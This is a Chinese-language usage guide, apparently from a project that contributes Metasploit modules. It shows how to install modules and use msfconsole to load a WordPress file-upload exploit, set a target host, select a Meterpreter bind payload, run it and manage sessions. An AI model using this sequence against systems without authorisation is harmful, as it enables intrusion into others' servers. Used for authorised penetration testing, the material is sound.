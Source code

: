 使用流程
========

将开放的模块放置metasploit安装目录的apps/pro/msf3/modules目录下，辅助模块放置在auxiliary目录下，利用模块放置在exploits目录下。

**启动运行环境**
::

    msfconsole

运行环境启动完成

如果运行环境正确启动，会看到类似效果:

.. image:: image/1.4.3.png

**查找提交的模块**

命令::

    search
	
示例::

    search wp_property_upload_exec

效果:
	
.. image:: image/1.4.4.png

**使用模块**

命令::

    use
	
示例::

    use exploit/unix/webapp/wp_property_upload_exec

效果:
	
.. image:: image/1.4.5.png

**查看该模块的配置信息**

命令::

    show
	
示例::

    show options

效果:
	
.. image:: image/1.4.6.png

或者使用命令 ``info`` 查看该模块更详细的信息

示例:

.. image:: image/1.4.7.png


**设置参数**

命令::

    set
	
示例::

    set RHOST 192.168.0.110

效果:
	
.. image:: image/1.4.8.png

**指定PAYLOAD**

在设置该模块的PAYLOAD之前需要查看该模块可用的PAYLOAD有哪些，可使用命令 ``show payloads`` 查看，示例如下:

.. image:: image/1.4.9.png

从所列出的PAYLOAD中选择自己熟悉的PAYLOAD使用

命令::

    set PAYLOAD
	
示例::

    set PAYLOAD php/meterpreter/bind_tcp

效果:
	
.. image:: image/1.4.10.png

PAYLOAD指定之后需要对PAYLOAD的参数进行相关设置，此处不再列举

**运行模块**

命令::

    exploit 或 run
	
**其它常用命令**

查看会话
::

    sessions -l
	
指定会话	
::

    sessions -i

.. note::

    此文档未列出获取会话之后所需要的操作命令，用户可在会话终端下通过help命令进行了解。